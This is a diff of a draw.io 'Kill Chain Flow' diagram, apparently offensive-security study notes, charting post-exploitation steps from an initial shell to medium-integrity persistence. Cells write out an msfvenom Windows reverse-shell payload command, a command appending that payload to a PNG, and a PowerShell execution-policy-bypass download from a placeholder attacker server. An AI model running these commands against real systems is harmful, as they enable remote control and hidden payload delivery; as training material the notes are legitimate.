
Earlier version of the draw.io diagram page "Overall" (1 of 2) of Kill Chain Flow.drawio (brwnshoecrew/OSWE). Source tidied: cells renumbered, new cells numbered last; positions are measured from the earlier drawing's top-left corner, leaving out a move shared by most shapes. Both pictures are drawn from the tidied source at 100%, with x=0, y=0 at pixel (17, 37).

After the change.

Unchanged cells that the change refers to:
```xml
<mxCell id="6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="1" vertex="1">
  <mxGeometry y="120" width="170" height="100" as="geometry" />
</mxCell>
```

What changed in the source:
```diff
@@
-    <mxCell id="2" style="rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="1" edge="1" source="3" target="6">
+    <mxCell id="2" style="rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" edge="1" source="3" target="15">
       <mxGeometry relative="1" as="geometry" />
     </mxCell>
     <mxCell id="3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="1" vertex="1">
-      <mxGeometry x="25" y="30" width="120" height="40" as="geometry" />
+      <mxGeometry x="25" y="-20" width="120" height="40" as="geometry" />
     </mxCell>
-    <mxCell id="4" value="Yes" style="rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="1" edge="1" source="6" target="10">
+    <mxCell id="4" style="rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="1" edge="1" source="6" target="10">
       <mxGeometry y="20" relative="1" as="geometry" />
     </mxCell>
-    <mxCell id="5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" edge="1" source="6" target="8">
+    <mxCell id="5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" edge="1" source="6" target="20">
       <mxGeometry y="10" relative="1" as="geometry" />
     </mxCell>
@@
-    <mxCell id="7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="8" target="12">
+    <mxCell id="7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" edge="1" source="21" target="12">
       <mxGeometry relative="1" as="geometry" />
     </mxCell>
-    <mxCell id="8" value="Update Pers_Medium.cpp with Attacker IP and Compile" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="1" vertex="1">
-      <mxGeometry x="235" y="30" width="120" height="60" as="geometry" />
-    </mxCell>
-    <mxCell id="9" value="No" style="rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="1" edge="1" source="10" target="11">
+    <mxCell id="9" style="rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="1" edge="1" source="10" target="11">
       <mxGeometry x="0.33" y="20" relative="1" as="geometry" />
     </mxCell>
-    <mxCell id="10" value="Bulb&lt;br&gt;burned out?" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="1" vertex="1">
+    <mxCell id="10" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="1" vertex="1">
       <mxGeometry x="35" y="240" width="100" height="80" as="geometry" />
     </mxCell>
-    <mxCell id="11" value="Repair Lamp" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="1" vertex="1">
+    <mxCell id="11" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="1" vertex="1">
       <mxGeometry x="25" y="380" width="120" height="40" as="geometry" />
     </mxCell>
-    <mxCell id="12" value="Stage: reverse_9001.exe&lt;br&gt;9001.png&lt;br&gt;reverse_9002.exe&lt;br&gt;9001.png&lt;br&gt;Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="1" vertex="1">
-      <mxGeometry x="235" y="110" width="120" height="100" as="geometry" />
+    <mxCell id="12" value="Compile Into EXE's" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="1" vertex="1">
+      <mxGeometry x="355" y="190" width="120" height="30" as="geometry" />
     </mxCell>
     <mxCell id="13" value="Download staged binaries and png's to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="1" vertex="1">
-      <mxGeometry x="365" y="250" width="120" height="80" as="geometry" />
+      <mxGeometry x="530" y="435" width="120" height="80" as="geometry" />
     </mxCell>
     <mxCell id="14" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile('http://[IP]:[web server port]/Pers_Medium.exe','C:\Path\file.ext')&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="1" vertex="1">
-      <mxGeometry x="495" y="270" width="570" height="50" as="geometry" />
+      <mxGeometry x="665" y="450" width="570" height="50" as="geometry" />
     </mxCell>
+    <mxCell id="19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="15" target="6">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
     <mxCell id="15" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="1" vertex="1">
-      <mxGeometry x="395" y="30" width="120" height="60" as="geometry" />
+      <mxGeometry x="25" y="40" width="120" height="60" as="geometry" />
     </mxCell>
-    <mxCell id="16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0.5;entryY=0;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" edge="1" source="6" target="15">
-      <mxGeometry y="10" relative="1" as="geometry">
-        <Array as="points">
-          <mxPoint x="185" y="170" />
-          <mxPoint x="185" />
-          <mxPoint x="455" />
-        </Array>
-      </mxGeometry>
-    </mxCell>
-    <mxCell id="17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" edge="1" source="12" target="13">
-      <mxGeometry y="10" relative="1" as="geometry">
-        <Array as="points">
-          <mxPoint x="295" y="290" />
-        </Array>
-      </mxGeometry>
-    </mxCell>
-    <mxCell id="18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0.5;entryY=0;entryDx=0;entryDy=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" edge="1" source="15" target="13">
-      <mxGeometry y="10" relative="1" as="geometry">
-        <Array as="points">
-          <mxPoint x="455" y="160" />
-          <mxPoint x="425" y="160" />
-        </Array>
-      </mxGeometry>
-    </mxCell>
+    <mxCell id="20" value="Update Code" style="swimlane;fillColor=#FF6666;" parent="1" vertex="1">
+      <mxGeometry x="235" y="-20" width="1130" height="140" as="geometry" />
+    </mxCell>
+    <mxCell id="21" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;horizontal=1;startSize=30;fillColor=#FF6666;" parent="20" vertex="1">
+      <mxGeometry x="20" y="40" width="150" height="60" as="geometry" />
+    </mxCell>
+    <mxCell id="22" value="Medium IL Tools Directory" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;" parent="21" vertex="1">
+      <mxGeometry y="30" width="150" height="30" as="geometry" />
+    </mxCell>
+    <mxCell id="23" value="Reverse_9001.cpp&#10;Reverse_9002.cpp" style="swimlane;fontStyle=5;horizontal=1;startSize=30;fillColor=#FF6666;" parent="20" vertex="1">
+      <mxGeometry x="200" y="40" width="150" height="60" as="geometry" />
+    </mxCell>
+    <mxCell id="24" value="Medium IL Tools Directory" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;" parent="23" vertex="1">
+      <mxGeometry y="30" width="150" height="30" as="geometry" />
+    </mxCell>
+    <mxCell id="25" value="9001.png&#10;9002.png" style="swimlane;fontStyle=5;horizontal=1;startSize=30;shadow=0;fillColor=#FF6666;" parent="20" vertex="1">
+      <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
+    </mxCell>
+    <mxCell id="26" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;shadow=0;" parent="25" vertex="1">
+      <mxGeometry y="30" width="140" height="30" as="geometry" />
+    </mxCell>
+    <mxCell id="27" value="Appropriate Port" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;shadow=0;" parent="25" vertex="1">
+      <mxGeometry y="60" width="140" height="30" as="geometry" />
+    </mxCell>
+    <mxCell id="28" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; payload_reverse_shell_port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="20" vertex="1">
+      <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
+    </mxCell>
+    <mxCell id="29" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" edge="1" source="23" target="12">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="30" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="1" vertex="1">
+      <mxGeometry x="625" y="190" width="160" height="50" as="geometry" />
+    </mxCell>
+    <mxCell id="31" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="25" target="30">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="32" value="cp original.png combined.png; cat payload_reverse_shell_port#.raw &amp;gt;&amp;gt; combined.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="1" vertex="1">
+      <mxGeometry x="795" y="190" width="290" height="50" as="geometry" />
+    </mxCell>
+    <mxCell id="33" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="34" target="13">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="34" value="Stage" style="swimlane;shadow=0;fillColor=#FF6666;" parent="1" vertex="1">
+      <mxGeometry x="245" y="290" width="690" height="110" as="geometry" />
+    </mxCell>
+    <mxCell id="35" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="34" vertex="1">
+      <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
+    </mxCell>
+    <mxCell id="36" value="Reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="34" vertex="1">
+      <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
+    </mxCell>
+    <mxCell id="37" value="Reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="34" vertex="1">
+      <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
+    </mxCell>
+    <mxCell id="38" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="34" vertex="1">
+      <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
+    </mxCell>
+    <mxCell id="39" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="34" vertex="1">
+      <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
+    </mxCell>
+    <mxCell id="40" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" edge="1" source="12" target="34">
+      <mxGeometry relative="1" as="geometry">
+        <Array as="points">
+          <mxPoint x="415" y="260" />
+          <mxPoint x="590" y="260" />
+        </Array>
+      </mxGeometry>
+    </mxCell>
+    <mxCell id="41" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" edge="1" source="30" target="34">
+      <mxGeometry relative="1" as="geometry">
+        <Array as="points">
+          <mxPoint x="705" y="260" />
+          <mxPoint x="590" y="260" />
+        </Array>
+      </mxGeometry>
+    </mxCell>
```
